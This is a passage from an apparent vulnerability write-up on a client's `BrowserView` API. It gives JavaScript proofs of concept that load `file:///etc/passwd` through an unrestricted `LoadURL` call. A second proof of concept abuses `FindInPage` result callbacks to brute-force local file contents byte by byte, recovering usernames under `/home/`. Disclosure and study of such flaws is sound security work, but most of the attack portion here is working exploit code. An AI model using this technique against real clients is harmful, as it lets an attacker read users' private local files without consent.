 In testing the functionality of `BrowserView`, we discovered that calls to `BrowserView.LoadURL` are not restricted by any security policies and can load URLs with any protocol or domain, including high-privilege protocols like `chrome://` and `file://`.

PoC:

```javascript
b_view = s_client.BrowserView.Create();
b_view.LoadURL("file:///etc/passwd");
b_view.SetBounds(0, 0, 1000, 1000);
b_view.SetVisible(true);
```

### Accessing the Content of Pages Loaded in `BrowserView` to Read Arbitrary Files

At this point, we can use `LoadURL` to load any local file, but we still can't directly read the page content. By testing and reverse engineering the `BrowserView` object, we found its `FindInPage` feature can search for specific strings in the page, and by calling `BrowserView.on("find-in-page-results", callback)`, we can register a callback function to process the search results. The question then becomes: if we can search for a controlled string in the page and obtain the search results, can we access the page content? (Sounds like a CTF problem)

The answer is affirmative. By brute-forcing byte by byte, we can achieve the effect of reading arbitrary files eventually,.

PoC（Obtain usernames by reading `file:///home/`）:

```javascript
async function is_str_in_bv(bv, s, count) {
  window.stage = 0;
  bv.FindInPage(s, true, true);
  while (window.stage < 3) { await sleep(10); }
  return window.count > count;
}

b_view.on("find-in-page-results", (a, b) => {
  if (window.stage == 0) {
    if (a == 0 && b == 0) { window.stage = 3; window.count = 0; }
    else window.stage++;
  }
  else if (window.stage++ == 2) window.count = a;
});
baseuser = "/";
charset = "abcdefghijklmnopqrstuvwxyz";
while (true) {
  found = false;
  for (c of charset) {
    teststr = c + baseuser;
    count = 0;
    if ("home/".endsWith(teststr)) count = 1;
    if (await is_str_in_bv(b_view, teststr, count)) {
      found = true;
      break;
    };
  }
  if (!found) break;
  baseuser = teststr;
}
alert(baseuser);
```
